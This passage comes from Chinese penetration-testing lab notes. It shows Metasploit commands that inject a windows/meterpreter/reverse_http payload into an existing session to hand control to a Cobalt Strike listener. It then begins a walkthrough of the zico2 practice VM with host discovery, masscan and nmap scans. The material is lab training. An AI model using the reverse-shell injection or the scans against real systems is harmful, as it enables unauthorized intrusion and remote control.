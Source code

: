 
cs设置监听器 端口不要和msf一样

 payload选择 `windows/meterpreter/reverse_http`

msf操作：

```shell
use exploit/windows/local/payload_inject
set payload windows/meterpreter/reverse_http
set session 1  # 这里为msf的session
set lhost eth0
set lport 4445
set disablepayloadhandler 1
run
```



# 第5次 zico2

# 1.信息收集

## 1.1 主机发现

```
netdiscover -r 192.168.81.0/24
```

![image-20220315144404186](https://gitee.com/xxb667/img/raw/master/img/image-20220315144404186.png)

## 1.2 端口扫描

```
masscan --rate=1000 -p 0-65535 192.168.81.142
```

发现4个端口

```
22
80
111
53311
```

![image-20220315145631266](https://gitee.com/xxb667/img/raw/master/img/image-20220315145631266.png)

## 1.3 端口服务识别

```
nmap -sV -T4 -O 192.168.81.142 -p 22,80,111,53311
```

